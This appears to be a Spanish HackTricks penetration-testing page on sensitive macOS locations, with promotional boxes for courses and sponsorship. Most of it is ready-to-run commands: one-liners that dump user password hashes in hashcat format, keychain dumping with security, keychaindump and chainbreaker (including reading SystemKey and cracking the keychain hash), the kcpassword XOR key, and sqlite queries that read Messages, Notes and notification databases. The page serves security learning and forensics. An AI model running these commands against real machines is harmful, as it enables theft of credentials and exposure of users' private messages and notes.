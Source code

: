 # Ubicaciones Sensibles en macOS

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue**me en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Contraseñas

### Contraseñas Shadow

La contraseña shadow se almacena con la configuración del usuario en plists ubicados en **`/var/db/dslocal/nodes/Default/users/`**.\
El siguiente oneliner se puede utilizar para volcar **toda la información sobre los usuarios** (incluida la información del hash):

{% code overflow="wrap" %}
```bash
for l in /var/db/dslocal/nodes/Default/users/*; do if [ -r "$l" ];then echo "$l"; defaults read "$l"; fi; done
```
```bash
dscl . list /Users | grep -v '^_' | while read user; do echo -n "$user:"; dscl . -read /Users/$user dsAttrTypeNative:ShadowHashData | tr -d ' ' | cut -d '[' -f2 | cut -d ']' -f1 | xxd -r -p | base64; echo; done
```
{% endcode %}

[**Scripts como este**](https://gist.github.com/teddziuba/3ff08bdda120d1f7822f3baf52e606c2) o [**este**](https://github.com/octomagon/davegrohl.git) pueden usarse para transformar el hash al **formato hashcat**.

Una alternativa de una sola línea que volcará las credenciales de todas las cuentas que no son de servicio en formato hashcat `-m 7100` (macOS PBKDF2-SHA512):

{% code overflow="wrap" %}
```bash
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```
{% endcode %}

### Volcado de Keychain

Tenga en cuenta que al usar el binario security para **volcar las contraseñas descifradas**, se le pedirá al usuario varias veces que permita esta operación.
```bash
#security
secuirty dump-trust-settings [-s] [-d] #List certificates
security list-keychains #List keychain dbs
security list-smartcards #List smartcards
security dump-keychain | grep -A 5 "keychain" | grep -v "version" #List keychains entries
security dump-keychain -d #Dump all the info, included secrets (the user will be asked for his password, even if root)
```
### [Keychaindump](https://github.com/juuso/keychaindump)

{% hint style="danger" %}
Basado en este comentario [juuso/keychaindump#10 (comment)](https://github.com/juuso/keychaindump/issues/10#issuecomment-751218760), parece que estas herramientas ya no funcionan en Big Sur.
{% endhint %}

El atacante aún necesita obtener acceso al sistema y escalar a privilegios de **root** para ejecutar **keychaindump**. Este enfoque tiene sus propias condiciones. Como se mencionó anteriormente, **al iniciar sesión, tu llavero se desbloquea por defecto** y permanece desbloqueado mientras usas tu sistema. Esto es por conveniencia para que el usuario no necesite ingresar su contraseña cada vez que una aplicación desee acceder al llavero. Si el usuario ha cambiado esta configuración y ha elegido bloquear el llavero después de cada uso, keychaindump ya no funcionará; depende de un llavero desbloqueado para funcionar.

Es importante entender cómo Keychaindump extrae contraseñas de la memoria. El proceso más importante en esta transacción es el **proceso "securityd"**. Apple se refiere a este proceso como un **daemon de contexto de seguridad para autorización y operaciones criptográficas**. Las bibliotecas de desarrolladores de Apple no dicen mucho al respecto; sin embargo, nos dicen que securityd maneja el acceso al llavero. En su investigación, Juuso se refiere a **la clave necesaria para descifrar el llavero como "La Clave Maestra"**. Se deben realizar una serie de pasos para adquirir esta clave, ya que se deriva de la contraseña de inicio de sesión del usuario en OS X. Si quieres leer el archivo del llavero debes tener esta clave maestra. Los siguientes pasos se pueden realizar para adquirirla. **Realiza un escaneo del montón de securityd (keychaindump hace esto con el comando vmmap)**. Las posibles claves maestras se almacenan en un área marcada como MALLOC_TINY. Puedes ver las ubicaciones de estos montones tú mismo con el siguiente comando:
```bash
sudo vmmap <securityd PID> | grep MALLOC_TINY
```
**Keychaindump** buscará en los montones devueltos ocurrencias de 0x0000000000000018. Si el valor de 8 bytes siguiente apunta al montón actual, hemos encontrado una posible clave maestra. A partir de aquí, todavía es necesario realizar un poco de desofuscación, lo cual se puede ver en el código fuente, pero como analista, la parte más importante a tener en cuenta es que los datos necesarios para descifrar esta información se almacenan en la memoria del proceso de securityd. Aquí hay un ejemplo de la salida de keychain dump.
```bash
sudo ./keychaindump
```
### chainbreaker

[**Chainbreaker**](https://github.com/n0fate/chainbreaker) puede usarse para extraer los siguientes tipos de información de un llavero de OSX de manera forense:

* Contraseña del llavero en forma de hash, adecuada para cracking con [hashcat](https://hashcat.net/hashcat/) o [John the Ripper](https://www.openwall.com/john/)
* Contraseñas de Internet
* Contraseñas Genéricas
* Claves Privadas
* Claves Públicas
* Certificados X509
* Notas Seguras
* Contraseñas de Appleshare

Dada la contraseña de desbloqueo del llavero, una clave maestra obtenida usando [volafox](https://github.com/n0fate/volafox) o [volatility](https://github.com/volatilityfoundation/volatility), o un archivo de desbloqueo como SystemKey, Chainbreaker también proporcionará contraseñas en texto plano.

Sin uno de estos métodos para desbloquear el llavero, Chainbreaker mostrará toda la otra información disponible.

### **Volcar claves del llavero**
```bash
#Dump all keys of the keychain (without the passwords)
python2.7 chainbreaker.py --dump-all /Library/Keychains/System.keychain
```
### **Extraer claves del llavero (con contraseñas) con SystemKey**
```bash
# First, get the keychain decryption key
# To get this decryption key you need to be root and SIP must be disabled
hexdump -s 8 -n 24 -e '1/1 "%.2x"' /var/db/SystemKey && echo
## Use the previous key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
### **Volcado de claves del llavero (con contraseñas) mediante la rotura del hash**
```bash
# Get the keychain hash
python2.7 chainbreaker.py --dump-keychain-password-hash /Library/Keychains/System.keychain
# Crack it with hashcat
hashcat.exe -m 23100 --keep-guessing hashes.txt dictionary.txt
# Use the key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
### **Volcar claves del llavero (con contraseñas) con volcado de memoria**

[Siga estos pasos](..#dumping-memory-with-osxpmem) para realizar un **volcado de memoria**
```bash
#Use volafox (https://github.com/n0fate/volafox) to extract possible keychain passwords
# Unformtunately volafox isn't working with the latest versions of MacOS
python vol.py -i ~/Desktop/show/macosxml.mem -o keychaindump

#Try to extract the passwords using the extracted keychain passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
### **Volcar claves del llavero (con contraseñas) utilizando la contraseña del usuario**

Si conoces la contraseña del usuario, puedes usarla para **volcar y descifrar llaveros que pertenecen al usuario**.
```bash
#Prompt to ask for the password
python2.7 chainbreaker.py --dump-all --password-prompt /Users/<username>/Library/Keychains/login.keychain-db
```
### kcpassword

El archivo **kcpassword** es un archivo que contiene la **contraseña de inicio de sesión del usuario**, pero solo si el propietario del sistema ha **habilitado el inicio de sesión automático**. Por lo tanto, el usuario será automáticamente ingresado sin que se le pida una contraseña (lo cual no es muy seguro).

La contraseña se almacena en el archivo **`/etc/kcpassword`** xoreada con la clave **`0x7D 0x89 0x52 0x23 0xD2 0xBC 0xDD 0xEA 0xA3 0xB9 0x1F`**. Si la contraseña del usuario es más larga que la clave, la clave se reutilizará.\
Esto hace que la contraseña sea bastante fácil de recuperar, por ejemplo, utilizando scripts como [**este**](https://gist.github.com/opshope/32f65875d45215c3677d).

## Información Interesante en Bases de Datos

### Messages
```bash
sqlite3 $HOME/Library/Messages/chat.db .tables
sqlite3 $HOME/Library/Messages/chat.db 'select * from message'
sqlite3 $HOME/Library/Messages/chat.db 'select * from attachment'
sqlite3 $HOME/Library/Messages/chat.db 'select * from deleted_messages'
sqlite3 $HOME/Suggestions/snippets.db 'select * from emailSnippets'
```
### Notificaciones

Puedes encontrar los datos de Notificaciones en `$(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/`

La mayor parte de la información interesante estará en **blob**. Por lo tanto, necesitarás **extraer** ese contenido y **transformarlo** a un formato **legible por humanos** o usar **`strings`**. Para acceder a él puedes hacer:

{% code overflow="wrap" %}
```bash
cd $(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/
strings $(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/db2/db | grep -i -A4 slack
```
### Notas

Las **notas** de los usuarios se pueden encontrar en `~/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite`

{% code overflow="wrap" %}
```bash
sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite .tables

#To dump it in a readable format:
for i in $(sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite "select Z_PK from ZICNOTEDATA;"); do sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite "select writefile('body1.gz.z', ZDATA) from ZICNOTEDATA where Z_PK = '$i';"; zcat body1.gz.Z ; done
```
<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
